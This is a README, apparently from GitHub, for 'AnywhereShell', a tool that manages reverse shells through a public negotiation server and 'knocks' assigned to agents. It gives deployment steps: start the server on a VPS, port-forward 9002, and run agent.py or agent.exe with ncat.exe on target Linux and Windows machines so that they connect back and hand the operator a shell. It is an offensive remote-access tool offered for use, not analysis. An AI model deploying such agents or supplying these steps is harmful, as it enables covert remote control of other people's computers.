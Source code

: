 AnywhereShell
=============

Easily manage your reverse-shells by assigning "knocks" to each.

Protocol
=============
The negotiation server is used to register different "knocks" to agents. These knocks are used to identify individual agents. The agent is the assigned a knock that is registered to the negotiation server. When the management console is ready to connect to the agent it tells the negotiation server to set the knock status for that agent from "wait" to "connect." The agent then connects outbound to the management console.


                    > Negotiation-Server <
                   /                      \
                  /                        \
                agent -------------> management-console


Compatibility
=============
AnywhereShell is compatible with Linux and Windows. 

Usage
=============
Start the negotiation server on an external VPS. It must be public facing!

```
python negotiate.py
```
Make sure that there is a knock directory in the same directory as negotiate.py. This is where the knocks get stored.

```
mkdir knocks
```

To install the manager extract manager.jar, .knockrc, and scripts/ to the same directory.

On Linux you will have to enable execute privileges.
```
chmod +x manager.jar
*double-click to run* or java -jar manager.jar
```
On your router port-forward 9002 through to the host that has your management console running. This is neccessary so agents can connect back to you.

In the manager create knock "test."

To deploy the agent on a Linux computer run the following command.
```
python agent.py -i $server_ip -k test
```

To deploy the agent on a Windows computer extract the agent.exe and ncat.exe executables from the windows_agent folder.
```
agent.exe -i $server_ip -k test
```

Simply click connect in the management-console using your knock: "test".

You should have a shell!

Register and deploy as many knocks and agents as you want.
